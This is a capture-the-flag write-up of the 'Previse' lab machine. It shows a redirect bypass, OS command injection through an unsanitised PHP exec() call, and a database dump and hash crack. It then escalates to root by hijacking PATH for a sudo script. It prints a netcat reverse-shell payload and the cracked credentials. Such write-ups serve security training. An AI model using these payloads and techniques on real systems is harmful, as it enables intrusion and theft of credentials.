


## TL;DR

Bypass PHP redirect to access restricted page, create low priv web account, get website backup. Audit code and find OS command injection + MySQL creds, get reverse shell and dump database, get password hash and crack it to SSH. Privesc via path injection.

## Footholds

`nmap` gives us only ports `22` and `80`.

We first get this website:



Nothing we can deal with here, no SQL injection :(


For more info I used `dirsearch` to fuzz the web pages, and it found the following:

```
/accounts.php
/download.php
/files.php
/login.php
/logout.php
/logs.php
/status.php
```

## User

All with `302 Found` HTTP code, with a redirect towards `/login.php`. With that much info we want to get the content of those pages. To do so I used BurpSuite and made a filter to replace `HTTP/1.1 302 Found` with `HTTP/1.1 200` which worked like a charm, but using only `curl` would also work.

We now have access to the previous pages. In order to download a file you must have a valid `PHPSESSID`, so you want to create your own user on `/accounts.php`. Log in again with your fresh accounts and you can access to the `siteBacku.zip` file at `/files.php`.

In this backup we have multiple files, including a nice `config.php` containing MySQL credentials; we will use it in a minute. We also have the code for the whole webapp. One file caught my attention:

```php
// logs.php
[...]

/////////////////////////////////////////////////////////////////////////////////////
//I tried really hard to parse the log delims in PHP, but python was SO MUCH EASIER//
/////////////////////////////////////////////////////////////////////////////////////

$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;

[...]
```

Whatever this means, there is no filter at all for this `$_POST['delim']` variable, therefor we can easily inject some command here. As confidant as always I open a netcat listener on my machine, and inject my payload like so:

```sh
curl -X POST previse.htb/logs.php -b 'PHPSESSID=MY_VALID_SESSION' -d 'delim=;nc IP PORT -e /bin/sh'
```

As expected I got my reverse shell 🎉

Let's upgrade from this poor virgin netcat to a chad upgrade:

```sh
# on reverse shell
python -c 'import pty; pty.spawn("/bin/bash")'
(www-data@previse.htb) /var/www/html/: ^Z # Ctrl-Z to background

# on main host
~/ctf/htb/previse
> stty raw -echo; fg

(www-data@previse.htb) /var/www/html/:
```

We now have a better shell, with history and completion. Time to get user!

With the previous info we can directly dump the database:

```sh
mysql -u root -p 'mySQL_p@ssw0rd!:)' -D previse -e 'select * from accounts;'
```

Like so we get a password hash for an another user: `m4lwhere:$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.`, we crack it using `hashcat` because `john` did not worked:



```sh
hashcat -m 500 user_hash /usr/share/wordlist/rockyou.txt
# wait for about 15 minutes...

$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!
```

We can SSH on the box.

## Root

```
(m4lwhere@previse.htb): sudo -l

(root) /opt/scripts/access_backups.sh
```

```sh
# /opt/scripts/access_backup.sh

gzip -c /var/www/apache_logs.gz ...
```

The path for the `access_backup.sh` is absolute, but not for `gzip` in the script. We can then create our own `gzip` executable which will run with `root` rights:

```sh
# /tmp/gzip
#!/bin/sh
cat /root/root.txt > /tmp/root
```

We change our path with `export PATH="/tmp/:$PATH"` and execute the script with sudo:

`cd /tmp; sudo /opt/scripts/access_logs.sh`


